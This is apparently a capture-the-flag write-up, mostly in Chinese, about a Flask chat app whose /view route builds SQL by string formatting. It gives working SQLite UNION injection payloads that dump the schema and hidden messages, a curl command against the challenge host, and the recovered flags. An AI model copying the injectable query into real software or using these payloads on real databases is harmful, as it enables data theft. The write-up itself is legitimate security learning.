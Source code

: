 ```python

def sha256(msg: bytes):
    return hashlib.sha256(msg).hexdigest()


def get_user_id():
    return session['token'].split(":", 1)[0]


@app.route("/")
def index():
    return render_template("index.html")

@app.route("/chat")
def chat():
    return render_template("chat.html")

@app.route("/list")
def list():
    results = execute_query("select id, title from messages where shown = true", fetch_all=True)
    messages = [Message(m[0], m[1], None) for m in results]
    return render_template("list.html", messages=messages)

@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))

if __name__ == "__main__":
    app.run(host="127.0.0.1", port=13091)
```

sqlite 的简单 sql 注入

`/view?conversation_id=e63f1024-1097-4e34-b943-457c92dc881'(urlencode "'union select 1,group_concat(sql) FROM sqlite_schema limit '1")`
`CREATE TABLE messages (id text primary key, title text, contents text, shown boolean)`

就这一个表

`'union select 1,group_concat(contents) FROM messages where shown = false limit '1`
`flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_9ca5895338}`

但是这个只是 "窥视未知" 的 flag, 还有一个 "千里挑一"

所以直接全搜一下

```shell
curl -H 'Cookie: session=xxxxxx' 'https://chal01-7tb9vrf4.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=e63f1024-1097-4e34-b943-457c92dc881'(urlencode "'union select 1,group_concat(contents) FROM messages where contents like '%flag%' limit '1") | grep flag
flag{zU1_xiA0_de_11m_Pa0lule!!!_7176955c56}
flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_9ca5895338}
```


  [1]: ./assets//4046521366.webp
  [2]: ./assets//281655009.webp
  [3]: ./assets//4046521366.webp
  [4]: ./assets//1500912061.webp
  [5]: ./assets//3096051582.webp
  [6]: ./assets//557543131.webp